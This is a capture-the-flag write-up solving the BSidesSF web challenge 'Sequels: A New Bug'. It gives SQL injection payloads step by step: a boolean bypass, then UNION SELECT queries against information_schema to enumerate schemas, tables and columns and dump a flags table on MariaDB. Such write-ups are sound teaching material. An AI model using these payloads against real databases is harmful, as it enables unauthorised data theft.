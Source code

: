 # WEB

# Sequels: A New Bug

Challenge Description:

    Sequels: A New Bug
    
    Web
    We've decided to track known Jedi and Sith, so we put together this database. Hopefully there are no bugs?
    Author: Matir
    https://sequels-1-7a1d808a.challenges.bsidessf.net/


Solution: 


Seems like an SQL injection so I tried the basic  `'` and got the following response



 which confirms the potential, and that its using [mariaDB](https://mariadb.org/about/)
So now we just need to find a mysql/Mariadb injection

Seems like the sql at the back end is doing something like this with our input


    select * from <Tablename> where <Tablename>.<Field>= <ourinput> Limit 10

If I leave it blank it gives me 10 users:




I tried the most common payload aka


    1' OR 1 = 1--  

 
 we get an extra 11th user aka Yoda
 




I found this wonderful cheatsheet so I followed it

https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/


initially I tried the nulls but it wasnt working I was either getting an error on string conversion and the number of columns,
Since we know the number of columns is three, I tried using the same schema name three times:

    1 ' UNION ALL SELECT concat(schema_name) ,concat(schema_name)  ,concat(schema_name) FROM information_schema.schemata-- 

and I got the db name



so I followed with the table names, also we should always add it thrice since that's the number of fields in the first table hence our next payload is:

    1' UNION ALL SELECT concat(TABLE_NAME), concat(TABLE_NAME), concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='sequels1'-- 
!

now we know name of the table so lets try accessing column names and the same field but three times


    1 ' UNION ALL SELECT concat(column_name), concat(column_name), concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='flags'-- 


now we know the fields so we can run the sql query, since I got to learn about concat command and using random hex values I will add it to as the third field payload


    1' UNION ALL SELECT name, value, concat(0x28,name,0x3a,value,0x29) FROM flags-- 


